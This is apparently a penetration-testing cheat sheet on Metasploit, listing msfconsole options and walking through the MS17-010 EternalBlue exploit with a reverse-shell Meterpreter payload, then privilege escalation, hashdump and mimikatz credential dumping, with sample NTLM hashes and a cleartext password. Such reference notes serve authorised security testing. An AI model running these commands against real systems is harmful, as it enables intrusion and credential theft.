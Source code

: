 ```yaml
---
title : "Metasploit"
# pre : ' '
description : "The world's most used penetration testing framework."
date : 2020-03-11T16:59:30+01:00
# hidden : true
# draft : true
weight : 0
# tags : [""]
---
```


## Metasploit

The world's most used penetration testing framework.

## Installation

Please use [Kali Linux](https://www.kali.org/)

Download newest release from [Github.com](https://github.com/rapid7/metasploit-framework/releases)

## Usage

```plain
msfconsole [options]
```

## Flags

```plain
Usage: msfconsole [options]

Common options:
    -E, --environment ENVIRONMENT    Set Rails environment, defaults to RAIL_ENV environment variable or 'production'

Database options:
    -M, --migration-path DIRECTORY   Specify a directory containing additional DB migrations
    -n, --no-database                Disable database support
    -y, --yaml PATH                  Specify a YAML file containing database settings

Framework options:
    -c FILE                          Load the specified configuration file
    -v, -V, --version                Show version

Module options:
        --defer-module-loads         Defer module loading unless explicitly asked.
    -m, --module-path DIRECTORY      Load an additional module path

Console options:
    -a, --ask                        Ask before exiting Metasploit or accept 'exit -y'
    -H, --history-file FILE          Save command history to the specified file
    -L, --real-readline              Use the system Readline library instead of RbReadline
    -o, --output FILE                Output to the specified file
    -p, --plugin PLUGIN              Load a plugin on startup
    -q, --quiet                      Do not print the banner on startup
    -r, --resource FILE              Execute the specified resource file (- for stdin)
    -x, --execute-command COMMAND    Execute the specified console commands (use ; for multiples)
    -h, --help                       Show this message
```

### Meterpreter examples

### getsystem

```plain
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```

### hashdump

```plain
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:102277341d6c113a28017200e1dfafe9:::
johndo:1107:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
adm_johndo:1108:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
janedo:1110:aad3b435b51404eeaad3b435b51404ee:f3fe13546c4c0d2db443a0865626203b:::
[...]
```

## Examples

### MS17-010 - Eternalblue

{{%attachments fa_icon_class="far fa-file-video" pattern="ms17-010.*(mp4)"%}}

### Scanner

```plain
msf5 > use auxiliary/scanner/smb/smb_ms17_010
```

### Exploit

```plain
msf5 > use exploit/windows/smb/ms17_010_eternalblue
msf5 > set rhost <target>
msf5 > set payload windows/x64/meterpreter/reverse_tcp
msf5 > set lhost <own-system>
msf5 > run
```

```plain
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:102277341d6c113a28017200e1dfafe9:::
johndo:1107:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
adm_johndo:1108:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
janedo:1110:aad3b435b51404eeaad3b435b51404ee:f3fe13546c4c0d2db443a0865626203b:::
[...]

meterpreter > load kiwi
Loading extension kiwi...
mimikatz 2.2.0 20191125 (x64/windows)
Success.

meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain   NTLM                              SHA1                                      LM
--------       ------   ----                              ----                                      --
Administrator  OFFSEC   97f2592347d8fbe42be381726ff9ea83  d0321e2e4e0712ba7b3f8c1998931312bf6a8b05  12a3cf9e7ff5e329f76ccb47241e3d88
DC2008R2$      OFFSEC   34acde5ae873319558ae6f191e8877bf  186dfbdbae180d8eb4c4406b03250e5194adf6af  

wdigest credentials
===================

Username       Domain   Password
--------       ------   --------
(null)         (null)   (null)
Administrator  OFFSEC   Welkom1234
[...]
```

## URL List

- [Metasploit.com](https://www.metasploit.com/)
- [Offensive-security.com Meterpreter](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
- [GitHub.com - Metasploit framework](https://github.com/rapid7/metasploit-framework)
